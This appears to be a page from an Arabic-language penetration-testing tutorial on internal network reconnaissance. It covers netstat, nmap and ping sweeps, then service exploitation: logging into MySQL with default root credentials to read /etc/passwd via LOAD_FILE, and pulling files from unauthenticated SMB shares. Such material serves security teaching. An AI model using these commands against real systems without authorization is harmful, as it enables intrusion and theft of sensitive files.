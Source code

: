 #### **الجانب العملي:**
- **اكتشاف الخدمات:**
  - **في لينكس:**
    ```bash
    netstat -tuln
    ```
    - خرج مثال: `tcp 0 0 0.0.0.0:22` → SSH مفتوح.
    ```bash
    ps aux | grep mysql
    ```
    - خرج مثال: `/usr/sbin/mysqld` → MySQL شغال.

  - **في ويندوز:**
    ```cmd
    netstat -ano
    ```
    - خرج مثال: `TCP 0.0.0.0:3389` → RDP مفتوح.
    ```cmd
    tasklist | findstr "sql"
    ```
    - خرج مثال: `sqlservr.exe` → SQL Server شغال.

- **فحص الشبكة الداخلية:**
  - في لينكس:
    ```bash
    nmap -sT 192.168.1.0/24
    ```
    - خرج مثال: `192.168.1.11:445 open` → SMB مفتوح.
  - في ويندوز:
    ```cmd
    for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i
    ```

#### **استغلال الخدمات:**
- **MySQL (لينكس):**
  - لو لقيت MySQL شغال:
    ```bash
    mysql -u root -p
    ```
    - جرب باسوورد افتراضي (زي `root` أو فاضي).
  - لو نجحت:
    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```
    - بيطلعلك ملفات حساسة.

- **SMB (ويندوز/لينكس):**
  - لو لقيت 445 مفتوح:
    ```bash
    smbclient -L 192.168.1.11
    ```
    - خرج مثال: `Sharename: DATA`.
  - اتصل:
    ```bash
    smbclient //192.168.1.11/DATA
    ```
    - لو مفتوح بدون باسوورد، بتقدر تاخد ملفات.
